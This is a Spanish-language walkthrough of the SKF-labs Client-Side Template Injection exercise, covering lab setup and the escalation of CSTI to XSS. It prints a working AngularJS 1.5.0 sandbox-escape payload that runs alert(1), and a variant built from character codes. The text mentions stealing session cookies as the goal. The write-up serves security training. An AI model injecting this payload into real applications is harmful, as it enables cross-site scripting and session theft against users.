








# Client-Side Template Injection (CSTI)


## Requerimientos

```bash
apt install python2
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
python2 get-pip.py
rm get-pip.py
```

## Instalación

```bash
git clone https://github.com/blabla1337/skf-labs
pip2 install -r requirements.txt
python2 CSTI.py
```

Esto lo que hará es correr un servidor web de forma local sin contenedores:



La web se ve de esta forma:



Este lab sirve para entender el concepto de cómo funciona un CSTI más que para un escenario real.

Al ingresar un input, por ejemplo, la palabra “Hola”, esta se vería reflejada en el servidor:



A comparación con el SSTI, la idea es la misma, inyectar un input para verlo reflejado en el servidor pero la diferencia radica en que la inyección en este caso se ve reflejada o la ejecuta el navegador del cliente y no el servidor en sí por lo que aquí la ejecución de comandos para ver archivos internos del servidor no aplican pero la idea de este ataque es derivarlo a un XSS para obtener algún tipo de información valiosa del usuario como cookies de sesión entre otras cosas.

En este caso se puede utilizar el repositorio de PayloadAllTheThings, en este caso se puede ver en la web que se está utilizando una versión en particular de Angularjs, la 1.5.0 por lo que se buscarán payloads para esa versión:



En este caso, el payload que se utilizará es el siguiente:

```bash

{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}

```

Este payload, está haciendo un “alert(1) de forma que cuando esto se ingrese en la web, mostrará una alerta con valor 1”:



También se puede representar strings por ejemplo la palabra “PWNED”, en este caso se pasará el string a decimal para que no haya problemas de interpretación y para esto se utilizará python:

```bash
sentence = "PWNED"
for character in sentence:
	print(ord(character))
```

*ord() permite pasar los caracteres a decimal.*



Luego estos caracteres de pueden tratar para representarlos en una misma línea:



Ahora esto se puede incluir en el payload

```bash

{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(80,87,78,69,68)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}

```


